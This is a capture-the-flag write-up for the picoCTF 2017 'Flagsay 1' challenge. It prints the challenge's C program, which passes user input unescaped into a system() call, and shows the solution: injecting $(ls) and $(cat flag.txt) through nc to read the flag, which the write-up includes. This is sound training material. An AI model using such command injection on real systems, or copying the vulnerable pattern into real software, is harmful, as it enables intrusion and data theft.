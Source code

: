 # Flagsay 1
---
### Question
I heard you like flags, so now you can make your own! Exhilarating! Use flagsay-1! Source. Connect on shell2017.picoctf.com:20230.

### HINTS

System will run exactly what the program gives it

---
# Solution

 After long time i saw easy challenge. Now again we got 2 files.
 
 ```flagsay-1 flag-1.c ```
   
1. Lets check what is written in ```flag-1.c``` file.
    ```C
    #include <stdio.h>
    #include <string.h>
    #include <stdlib.h>
    
    #define FIRSTCHAROFFSET 129
    #define LINELENGTH 35
    #define NEWLINEOFFSET 21
    #define LINECOUNT 6
    
    #define BUFFLEN 1024
    
    char flag[] = "               _                                        \n"
    	          "              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     \n"
    	          "             //                                   /     \n"
    	          "            //                                   /      \n"
    	          "           //                                   /       \n"
    	          "          //                                   /        \n"
    	          "         //                                   /         \n"
    	          "        //                                   /          \n"
    	          "       //___________________________________/           \n"
    	          "      //                                                \n"
    	          "     //                                                 \n"
    	          "    //                                                  \n"
    	          "   //                                                   \n"
    	          "  //                                                    \n"
    	          " //                                                     \n";
    
    char commandBase[] = "/bin/echo \"%s\"\n";
    
    void placeInFlag(char * str){
    	char * ptr = flag + FIRSTCHAROFFSET;
    	char * lastInLine = ptr + LINELENGTH;
    	size_t charRemaining = strlen(str);
    	size_t linesDone = 0;
    	while(charRemaining > 0 && linesDone < LINECOUNT){
    		if(ptr == lastInLine){
    			ptr += NEWLINEOFFSET;
    			lastInLine += NEWLINEOFFSET + LINELENGTH;
    			linesDone++;
    			continue;
    		}
    		ptr[0] = str[0];
    		ptr++;
    		str++;
    		charRemaining--;
    	}
    	
    }
    
    
    
    int main(int argc, char **argv){
    	size_t flagSize = strlen(flag) + 1; //need to remember null terminator
    	char * input = (char *)malloc(sizeof(char) * flagSize);
    	input[flagSize-1] = '\x0';
    	fgets(input, flagSize, stdin);
    	char * temp = strchr(input, '\n');
    	if(temp != NULL){
    		temp[0] = '\x0';
    	}
    	placeInFlag(input);
    
    	size_t commandLen = flagSize + strlen(commandBase) + 1;
    	char * command = (char *)malloc(sizeof(char) * commandLen);
    	snprintf(command, commandLen, commandBase, flag); 
    	system(command);
    
    	free(input);
    	free(command);
    }
    ```
    
    Now as you can see ```char commandBase[] = "/bin/echo \"%s\"\n";``` commandBase will echo out/ print out everything of out given input. 
    
    So here we need to give the input as bash command but we need to use the [Command Substitution](http://www.tldp.org/LDP/abs/html/commandsub.html) in order to give the bash shell commmands. 
    We can use ``` `` or $() ``` these three are command substitution.
    
Lets try it out:- 

```bash
$nc shell2017.picoctf.com 20230
$(ls)
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //flagsay-1
flagsay-1_no_aslr
flag.txt
xinetd_wrapper.sh                              /     
            //                                   /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //                                                     


$nc shell2017.picoctf.com 20230
$(cat flag.txt)
               _                                        
              //~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~     
             //3cd401c49122011a980e84a2c2180800   /     
            //                                   /      
           //                                   /       
          //                                   /        
         //                                   /         
        //                                   /          
       //___________________________________/           
      //                                                
     //                                                 
    //                                                  
   //                                                   
  //                                                    
 //                                                     


```

   
 So, i think we got the flag ```3cd401c49122011a980e84a2c2180800```.
 
 Hope you liked it :)
 
   ~Thanks
   
   [@spiritedwolf](https://github.com/spiritedwolf)

---


